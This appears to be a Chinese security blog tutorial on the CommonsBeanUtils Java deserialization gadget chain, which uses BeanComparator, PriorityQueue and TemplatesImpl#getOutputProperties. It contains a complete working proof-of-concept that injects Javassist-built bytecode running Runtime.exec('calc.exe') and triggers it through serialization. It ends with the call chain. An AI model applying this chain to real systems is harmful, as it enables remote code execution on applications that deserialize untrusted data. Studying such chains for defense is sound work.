



CommonsBeanUtils 反序列化
目录
在CC2这条链中，主要是通过向java.util.PriorityQueue对象传入恶意java.util.Comparator对象，导致在PriorityQueue在反序列化过程中执行了恶意java.util.Comparator的compare方法。
而java.util.Comparator实际是一个接口，我们在CC2中传入的是它的一个继承类：TransformingComparator。那么除了TransformingComparator 以外还有没有其它能够造成反序列化攻击的java.util.Comparator实现对象呢？
了解Apache Commons BeanUtils 的功能
Apache Commons工具集下除了collections以外还有BeanUtils ，它主要用于操控javabean。
举个与反序列化攻击有关的操控javabean的例子。
这里直接套用p牛的例子。
final public class Cat {
private String name = "catalina";
public String getName() {
System.out.println("123");
return name;
}
public void setName(String name) {
this.name = name;
}
}
然后我们执行
PropertyUtils.getProperty(new Cat(), "name");
这个方法会调用目标类的相关属性的getter方法，也就是Cat类中的getName方法，所以输出结果如下

BeanUtils 与 TemplatesImpl
我们通过上面的叙述，知道了BeanUtils 如何调用目标类某属性的getter方法。
而在TemplatesImpl中有如下的链：TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass() -> 恶意类初始化
同时在TemplatesImpl中存在如下方法TemplatesImpl#getOutputProperties()

我们可以发现它调用了newTransformer并且是一个getter方法，所以我们可以想办法用BeanUtils的PropertyUtils#getProperty调用该方法从而开启TemplatesImpl链，从而执行恶意字节码。
BeanUtils存在如下包 org.apache.commons.beanutils.BeanComparator，它继承自java.util.Comparator接口，所以实现了compare方法：

如果传入两个对象时 this.property不为空，就会分别对两个对象调用PropertyUtils.getProperty从而触发其对应getter方法。
由此来看，我们可以创建一个BeanComparator类，通过反射等手段将其property属性改成OutputProperties，再使其加载进java.util.PriorityQueue，在java.util.PriorityQueue反序列化时自动调用BeanComparator#compare，这个时候想办法将传入该方法的对象改成恶意TemplatesImpl，使PropertyUtils.getProperty触发getOutputProperties这个getter方法，即可达到恶意字节码执行的效果。
光说肯定会觉得抽象，下面直接上代码，其中大部分内容与CC2重合，重合部分的描述因此略过。
Poc
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.beanutils.BeanComparator;
public class Main {
public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
Field field = obj.getClass().getDeclaredField(fieldName);
field.setAccessible(true);
field.set(obj, value);
}
public static void main(String[] args) throws Exception {
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("Cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
cc.makeClassInitializer().insertBefore(cmd);
String randomClassName = "EvilCat" + System.nanoTime();
cc.setName(randomClassName);
//cc.writeFile();
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
byte[] classBytes = cc.toBytecode();
byte[][] targetByteCodes = new byte[][]{classBytes};
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_bytecodes", targetByteCodes);
setFieldValue(obj, "_name", "HelloTemplatesImpl");
setFieldValue(obj, "_class", null);
final BeanComparator comparator = new BeanComparator();
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
setFieldValue(comparator, "property", "outputProperties"); //将comparator的property修改，使其在compare方法中去执行getOutputProperties
setFieldValue(queue, "queue", new Object[]{obj, obj});
setFieldValue(queue, "size", 2);
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(queue);
oos.close();
System.out.println(barr);
ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
Object o = (Object)ois.readObject();
}
}
调用链
ObjectInputStream.readObject()
PriorityQueue#readObject()
PriorityQueue#heapify()
PriorityQueue#siftDown()
PriorityQueue#siftDownUsingComparator()
BeanComparator#compare()
PropertyUtils#getProperty()
TemplatesImpl.newTransformer()
TemplatesImpl.getTransletInstance()
EvilClass.newInstance()
总结
将java.util.PriorityQueue中的Comparator设置为BeanComparator，从而在BeanComparator#compare中调用getProperty方法，从而调用TemplatesImpl#getOutputProperties，进而触发TemplatesImpl _bytecodes字节码恶意实例化。